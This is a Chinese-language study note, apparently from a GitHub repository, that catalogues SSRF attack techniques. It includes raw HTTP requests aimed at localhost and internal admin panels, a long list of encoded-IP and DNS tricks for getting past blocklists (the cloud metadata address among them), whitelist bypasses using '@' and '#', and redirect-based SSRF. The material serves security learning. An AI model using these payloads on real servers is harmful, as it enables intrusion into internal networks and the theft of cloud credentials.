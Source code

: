 # SSRF攻击方式汇总
> 关于SSRF的靶场通关笔记也以及完成，详见链接：[SSRF PortSwigger靶场通关笔记](https://github.com/shungli923/WowBigBug/blob/main/%E9%9D%B6%E5%9C%BA%E6%94%BB%E7%95%A5/SSRF%20PortSwigger%E9%9D%B6%E5%9C%BA%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.md)

## 原理

涉及到SSRF的地方往往与公司的整个内网有关，因此涉及到SSRF的漏洞往往都有还不错的危害评级。

如果把存在SSRF攻击面的机器比作公司大楼保安.

第一种SSRF就好比，攻击者穿着外卖员的衣服跟保安说要进去送个外卖，然后保安相信了，这个时候攻击者就可以在公司大楼内部到处闲逛，这种就属于危害级别最高的SSRF；

第二种SSRF是公司给保安交代了明确规定外来人员不准进入公司大楼，这个时候外卖员跟保安说去跟我带个信，说一声某人外卖到了，然后保安问了说有就是这个人确实点了外卖，说没有就说明这个人没有点外卖或者说没有这个人；

第三种SSRF就更难了，保安收到了公司消息说是不准外来人员进入大楼，那外卖员让保安带个信，问这个人在不在，在就下来拿外卖，然后又多问了一嘴，问从哪里下来的，大概要多久才能到这里，保安觉得没啥大不了问了就消息一并告诉他了。

SSRF的全称是服务器端请求伪造（Server-side request forgery），通常情况下他的起因是公司的某些服务器因为需要长期和外界网络进行信息交互，对外界的某些请求需要在公司内部其他服务器上进行查询，同时因为该机器需要保持与外界的交流，所以该机器对外界的消息传递是不得不接受的，而因为某些配置或者某些精巧的绕过手法使得攻击者的意图隐藏在了看似正常的消息传递环节里。而其他服务器在进行查询时返回了攻击者的期望内容，因此就产生了SSRF攻击。

## SSRF攻击服务器本机

在某些业务情况下，用户发起请求时服务器需要通过其内的api接口对信息进行访问，该接口由于其可以对输入url进行解析请求,并对请求结果返回，因此可以进行SSRF攻击，如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

将 api 处内容换位本机地址：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

如果服务器在对localhost内容进行请求，则顺利构成SSRF攻击。

## SSRF内网漫游

与上图一样，如果将请求的内容换成如下：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.1.1/admin
```

如果将上述内容 localhost 改为内网地址，在 burp 的intruder模块对内网地址进行爆破，对存活主机进行目录爆破，即可实现内网漫游。

## 黑名单绕过

上述两种SSRF可以说是非常理想的场景了，然而事实是，在如今的实际业务场景中几乎不会出现如此理想的攻击环境，往往存在各种的waf、行为感知、黑名单、百名单等进行攻击阻断

那么当127.0.0.1被禁止 了该如何处理？

以下都是可以尝试的替换方案：

```http
# Localhost 绕过
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://0
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR 绕过
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# 点号绕过
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# 十进制 绕过
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# 八进制 绕过
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# 十六进制绕过
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# 也可以尝试混合不同的绕过方式，可以使用如下网站借助完成：
# https://www.silisoftware.com/tools/ipconverter.php

# 比较少见的绕过方式
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS解析绕过
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

## 白名单绕过

白名单的主要绕过方式来自于各设备的规律规则没有对URL的规范贯彻，主要就是 `@` 和 `#` 这两个符号：如下，其中一个 `url` 是白名单要求的 `url` ，另一个 `url` 是我们需要请求的 `url` ，这俩 `url` 随便顺序组合（最好都尝试），然后中间用 `@`、`#`、`@#`、`#@` 进行链接，甚至对各个符号进行一次编码、二次编码在进行拼接，甚至在`@#`和`#@`这种情况下对其中一个进行一次、二次编码之后再进行拼接。对，白名单就是这样进行绕过。

```txt
https://URL_1@URL_2
```

## 重定向里的SSRF

通常出现在这样的业务场景里，利用方式如下：

get方式：`/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin`

post方式：

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.1.1/admin
```

## Blind SSRF

Blind SSRF的发现方式通常都是将自己vps的地址放在可能存在攻击点的地方，然后监听vps相应端口，等待攻击完成后看是否有收到像一个请求。从而判定是否存在Blind SSRF。

## Blind SSRF打出危害

由于Blind SSRF没有回显，因此相关的可以利用的价值极低，不过最近我发现了一个技术叫shellshock攻击的技术可以通过Blind SSRF拿出数据，见 [ShellShock 漏洞简述](https://github.com/shungli923/WowBigBug/blob/main/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/ShellShock%20%E6%BC%8F%E6%B4%9E%E7%AE%80%E8%BF%B0.md)。

